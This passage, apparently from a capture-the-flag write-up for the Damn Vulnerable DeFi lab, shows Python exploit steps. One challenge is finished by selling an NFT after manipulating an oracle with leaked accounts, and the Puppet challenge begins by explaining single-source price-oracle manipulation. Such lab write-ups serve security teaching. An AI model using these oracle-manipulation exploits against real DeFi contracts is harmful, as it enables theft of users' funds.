 Then we must approve the token to be taken from the attacker wallet by the exchange calling `approve()` with the ID of our NFT (`0`):

```py
nft_token.approve(exchange.address, 0, _fromAttacker)
```

Then we sell the token calling `sellOne()` with the token ID:

```py
exchange.sellOne(0, _fromAttacker)
```

And then we return the price to normal, as requested by the challenge:

```py
oracle.postPrice("DVNFT",ether_to_wei(999), _fromLeakedAcc[0])
oracle.postPrice("DVNFT",ether_to_wei(999), _fromLeakedAcc[1])
```

***

## Puppet

### Challenge description

> There's a huge lending pool borrowing Damn Valuable Tokens (DVTs), where you first need to deposit twice the borrow amount in ETH as collateral. The pool currently has 100000 DVTs in liquidity.
>
> There's a DVT market opened in an Uniswap v1 exchange, currently with 10 ETH and 10 DVT in liquidity.
>
> Starting with 25 ETH and 1000 DVTs in balance, you must steal all tokens from the lending pool.

### Solution

For this challenge there's a huge vulnerability in the PuppetPool contract where it only computes the price of the token from one source, the Uniswap V1 pool of DVT/ETH tokens.

If there's only one price source, the source can be easily manipulated, as we have 100 times more tokens than the Uniswap V1 pool, thus allowing us to push the price way down, to the point where it's possible to drain almost all the ETH in the uniswap pool.

To solve the challenge, first we have to approve the tokens for trade on the Uniswap V1 pool of DVT/ETH tokens:

```python
token.approve(
    uniswap_exchange.address, 
    2**256 - 1, 
    _fromAttacker
)
```

Here I used a pseudo-infinite approval (usually just called infinite approvals in DeFi), though this is not really necessary.
